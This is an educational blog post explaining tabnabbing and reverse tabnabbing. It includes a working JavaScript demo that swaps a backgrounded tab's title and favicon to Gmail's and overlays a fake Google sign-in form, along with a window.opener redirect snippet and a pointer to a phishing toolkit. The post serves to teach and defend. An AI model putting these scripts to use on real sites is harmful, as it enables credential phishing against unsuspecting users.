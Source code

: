 ```yaml
---
title: Tabnabbing & Reverse Tabnabbing
date: '2022-12-23'
tags: ['web', 'security', 'software']
draft: false
summary: Tabnabbing, with its reverse variant, is an exploit enabling malicious actors to replace one of your browser's opened window to a site of their choosing.
---
```


# Introduction

When working with links and windows on the web, there are manly complex things to consider. Tabnabbing and reverse tabnabbing however, don't require complex factors in your code, and are both easy to pull off and defend against. These attacks mainly utilize the user's attention being somewhere else. While the user is occupied with something else, the tab is either replaced or changed in a way to permit a phishing attack.

# Tabnabbing

First, let's talk about the simple version: tabnabbing. The term was coined in [this article](http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html) by Aza Raskin and the steps as explained by them are as follows:

1. A user navigates to your normal looking site.
2. You detect when the page has lost its focus and hasn’t been interacted with for a while.
3. You replace the favicon with the Gmail favicon, the title with “Gmail: Email from Google”, and the page with a Gmail login look-a-like. This can all be done with just a little bit of Javascript that takes place instantly.
4. As the user scans their many open tabs, the favicon and title act as a strong visual cue—memory is malleable and moldable and the user will most likely simply think they left a Gmail tab open. When they click back to the fake Gmail tab, they’ll see the standard Gmail login page, assume they’ve been logged out, and provide their credentials to log in. The attack preys on the perceived immutability of tabs.
5. After the user has entered their login information and you’ve sent it back to your server, you redirect them to Gmail. Because they were never logged out in the first place, it will appear as if the login was successful.

As Raskin notes in their article, the phishing content can be customized for each user in a spear phishing attack. The attack is very effective when posing as bank websites as a critical website warning the user that their login has timed out will not seem suspicious to the user. A user's company, password manager or even government login could be compromised if the victim is not paying attention.

Here's the attack script as seen on [this site's projects page](https://tabnabbing.vercel.app/projects) mostly adapted from [this gist](https://gist.github.com/cabe56/96b387a7f901f0219c8c):

<details>
<summary>Click to expand</summary>
```javascript
<script id="tabnabbing-example" type="application/javascript">
  {
    (function () {
      var TIMER = null
      var HAS_SWITCHED = false

      // Events
      window.onblur = function () {
        TIMER = setTimeout(changeItUp, 3500)
      }

      window.onfocus = function () {
        if (TIMER) clearTimeout(TIMER)
      }

      // Utils
      function setTitle(text) {
        document.title = text
      }

      // This favicon object rewritten from:
      // Favicon.js - Change favicon dynamically [http://ajaxify.com/run/favicon].
      // Copyright (c) 2008 Michael Mahemoff. Icon updates only work in Firefox and Opera.

      const favicon = {
        docHead: document.getElementsByTagName('head')[0],
        set: function (url) {
          this.addLink(url)
        },

        addLink: function (iconURL) {
          var link = document.createElement('link')
          link.type = 'image/x-icon'
          link.rel = 'shortcut icon'
          link.href = iconURL
          this.removeLinkIfExists()
          this.docHead.appendChild(link)
        },

        removeLinkIfExists: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              this.docHead.removeChild(link)
              return // Assuming only one match at most.
            }
          }
        },

        get: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              return link.href
            }
          }
        },
      }

      function createShield() {
        var div = document.createElement('div')
        div.style.position = 'fixed'
        div.style.top = 0
        div.style.left = 0
        div.style.backgroundColor = 'white'
        div.style.width = '100%'
        div.style.height = '100%'
        div.style.textAlign = 'center'
        document.body.style.overflow = 'hidden'

        // var img = document.createElement('img')
        // img.style.paddingTop = '15px'
        // img.src = 'http://img.skitch.com/20100524-b639xgwegpdej3cepch2387ene.png'

        var oldTitle = document.title
        var oldFavicon = favicon.get() || '/favicon.ico'

        div.innerHTML = `<body>
              <div class="box">
                      <h2>Sign in</h2>
                      <p>Use your Google Account</p>
                      <form onsubmit="alert('You got tabnabbed! I hope you didnt enter your password!')">
                        <div class="inputBox">
                          <input type="email" name="email" required onkeyup="this.setAttribute('value', this.value);"  value="">
                          <label>Username</label>
                        </div>
                        <div class="inputBox">
                              <input type="text" name="text" required onkeyup="this.setAttribute('value', this.value);" value="">
                              <label>Password</label>
                            </div>
                        <input type="submit" name="sign-in" value="Sign In">
                      </form>
                    </div>
              </body>`
        //TODO: Afterwards actually route the page to mail.google.com to make sure the victim doesn't notice we tabnabbed them

        // div.appendChild(img)
        document.body.appendChild(div)
      }
      function changeItUp() {
        if (HAS_SWITCHED == false) {
          createShield('https://mail.google.com')
          setTitle('Gmail: Email from Google')
          favicon.set('https://mail.google.com/favicon.ico')
          HAS_SWITCHED = true
        }
      }
    })()}

</script>
```
</details>

# Reverse Tabnabbing

This is an attack where the victim clicks on an unsafely routed link, and when they are spending time on the newly opened page, the original page is replaced with malicious content. The original site containing the unsafe link can be completely oblivious to these events, it only serves to be replaced once the user has clicked the unsafe link.

Explanation given by [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing) is as follows:

![With back link](https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png)

The attack is typically possible when the source site uses a target instruction in a html link to specify a target loading location that do not replace the current location and then let the current window/tab available and does not include any of the preventative measures detailed below.

The attack is also possible for link opened via the window.open javascript function.

Why is this harmful? Because neither the linked-to page, nor the phishing page lie on the same domain or origin as the original page. The site doesn't need to be compromised. It just needs to allow user-submitted anchors with target="\_blank".

## Examples

Vulnerable page ([landing page of this site](https://tabnabbing.vercel.app)):

```jsx
<button
  onClick={() => {
    window.open('https://tabnabbing.vercel.app/blog')
  }}
>
  Check out our blog!
</button>
```

Malicious site that is linked to ([the blog page of this site](https://tabnabbing.vercel.app/blog)):

```html
<script id="reverse-tabnabbing-example" type="application/javascript">
  {
    function () {
      if (window.opener) {
        window.opener.location = 'https://yildiz.edu.tr'
      }
    }()
  }
</script>
```

# Try it out

This blog contains code to enable tabnabbing and reverse tabnabbing attacks for educational purposes.
To get tabnabbed, visit the [projects](tabnabbing.vercel.app/projects) page and without leaving the page, either click on a project(which will open an external link in another tab) or just click away to another tab for a few seconds. When you look through your tabs, you might see a new fake gmail tab, with a fake gmail login page that contains a half-hearted attempt at imitating the real page's CSS. The phishing login can be improved by using a tool such as [SET](https://github.com/trustedsec/social-engineer-toolkit), this implementation is just for demonstration purposes.
If you would like to try out the reverse tabnabbing method, head to [the landing page of this site](tabnabbing.vercel.app) and click on the "announcement". When the new window is opened, you'll see the previous window changes to an unrelated site. This could be any site the attacker wants you to see, and if you're not paying attention it provides the attacker with an attack vector as big as their imagination.
Both attacks work on all major browsers, as long as the website contains the vulnerabilities described in the article.

# Solutions

The best method to ensure credentials safety on the web is to always use a password manager. There are many free and/or open source tools available, I personally use [Bitwarden](https://bitwarden.com/). There are credentials managers built into all major browsers that mostly negate these attacks and many more, because even if the user doesn't recognize that the login form they are about to fill is fake, the password manager will know, because the URL doesn't match the already-saved legit URL.

### Sources

- https://owasp.org/www-community/attacks/Reverse_Tabnabbing

- https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing

- http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html

- https://gist.github.com/cabe56/96b387a7f901f0219c8c

- https://github.com/EdwinOtten/reverse-tabnabbing-demo/

- https://santexgroup.com/blog/what-is-reverse-tabnabbing-and-why-is-it-important-to-be-aware-of/

- https://github.com/trustedsec/social-engineer-toolkit

- http://danielstjules.github.io/blankshield/

---
